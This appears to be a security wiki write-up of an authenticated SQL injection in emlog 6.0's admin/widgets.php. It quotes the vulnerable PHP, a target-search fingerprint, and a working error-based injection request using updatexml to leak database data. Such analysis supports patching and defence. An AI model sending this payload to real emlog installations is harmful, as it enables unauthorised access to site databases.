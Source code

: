 # emlog widgets.php background SQL injection vulnerability

## Vulnerability Description

After logging in, emlog widgets.php file causes SQL injection by constructing special statements to obtain database sensitive information.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">emlog 6.0 </span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="EMLOG"</span>

## Vulnerability reappears

Product Home Page

```python
https://github.com/emlog/emlog
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634002177714-22159b01-c44f-476a-bb4f-8363cceb9460.png)

The vulnerable file is `admin/widgets.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634002231213-67b50259-52f0-4cf0-983b-fc1a88cc6471.png)

```python
if ($action == 'compages') {
    $wgNum = isset($_POST['wgnum']) ? intval($_POST['wgnum']) : 1;//侧边栏编号 1、2、3 ……
    $widgets = isset($_POST['widgets']) ? serialize($_POST['widgets']) : '';
    Option::updateOption("widgets{$wgNum}", $widgets);
    $CACHE->updateCache('options');
    emDirect("./widgets.php?activated=true&wg=$wgNum");
}
```

Pass parameters to wgnum and widgets, tracking method `updateOption`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634002837216-c1000372-81ea-4671-bc5d-c378110d93db.png)

```python
static function updateOption($name, $value, $isSyntax = false){
        $DB = Database::getInstance();
        $value = $isSyntax ? $value : "'$value'";
        $DB->query('UPDATE '.DB_PREFIX."options SET option_value=$value where option_name='$name'");
    }
```

It can be found that the incoming parameters are not filtered and the Payload is constructed.

```python
POST /admin/widgets.php?action=compages

widgets=1' and updatexml(0x3a,concat(1,(select user())),1)-- 
```

After debugging, you can find that the database error statement will be echoed to the page, and the error injection can obtain sensitive information.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634002917512-820b18c8-d37a-4507-974c-1ba9c2afc2ed.png)![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634003089227-452c8b4e-d367-4f01-af1f-e90a79bfd91f.png)